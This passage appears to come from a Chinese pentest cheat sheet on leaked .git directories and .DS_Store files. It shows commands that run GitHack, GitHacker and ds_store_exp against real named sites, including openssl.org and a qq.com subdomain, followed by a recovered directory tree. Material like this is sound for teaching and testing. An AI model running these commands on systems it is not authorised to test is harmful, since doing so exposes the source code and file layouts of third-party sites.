 [GitHack](https://github.com/lijiejie/GitHack)

```shell
python GitHack.py http://www.openssl.org/.git/
```

[GitHacker（可恢复完整 Git 仓库）](https://github.com/WangYihang/GitHacker)

```shell
python GitHacker.py http://www.openssl.org/.git/
```

### `.DS_Store` 文件泄露

Mac OS 中会包含有 `.DS_Store` 文件，包含文件名等信息。

[利用工具 ds＿store＿exp](https://github.com/lijiejie/ds_store_exp)

```shell
python ds_store_exp.py http://hd.zj.qq.com/themes/galaxyw/.DS_Store

hd.zj.qq.com/
└── themes
    └── galaxyw
        ├── app
        │   └── css
        │       └── style.min.css
        ├── cityData.min.js
        ├── images
        │   └── img
        │       ├── bg-hd.png
        │       ├── bg-item-activity.png
        │       ├── bg-masker-pop.png
        │       ├── btn-bm.png
        │       ├── btn-login-qq.png
        │       ├── btn-login-wx.png
        │       ├── ico-add-pic.png
        │       ├── ico-address.png
        │       ├── ico-bm.png
        │       ├── ico-duration-time.png
        │       ├── ico-pop-close.png
        │       ├── ico-right-top-delete.png
        │       ├── page-login-hd.png
        │       ├── pic-masker.png
        │       └── ticket-selected.png
        └── member
            ├── assets
            │   ├── css
            │   │   ├── ace-reset.css
            │   │   └── antd.css
            │   └── lib
            │       ├── cityData.min.js
            │       └── ueditor
            │           ├── index.html
            │           ├── lang
            │           │   └── zh-cn
            │           │       ├── images
            │           │       │   ├── copy.png
            │           │       │   ├── localimage.png
            │           │       │   ├── music.png
            │           │       │   └── upload.png
            │           │       └── zh-cn.js
            │           ├── php
            │           │   ├── action_crawler.php
            │           │   ├── action_list.php
            │           │   ├── action_upload.php
            │           │   ├── config.json
```